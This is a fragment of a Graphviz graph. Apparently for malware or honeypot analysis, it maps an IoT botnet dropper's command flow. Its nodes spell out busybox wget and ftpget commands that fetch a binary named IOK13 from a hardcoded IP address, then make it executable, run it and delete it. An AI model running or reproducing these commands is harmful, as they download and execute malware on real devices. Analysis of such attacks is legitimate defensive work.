848 [label="rm -rf IOK13 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://185.145.131.236/IOK13 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x IOK13 "];
862 -> 864 [label=";,"];
864 [label="./IOK13 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf IOK13 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK13 IOK13 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x IOK13 ./IOK13 "];
880 -> 881 [label=";,"];
}
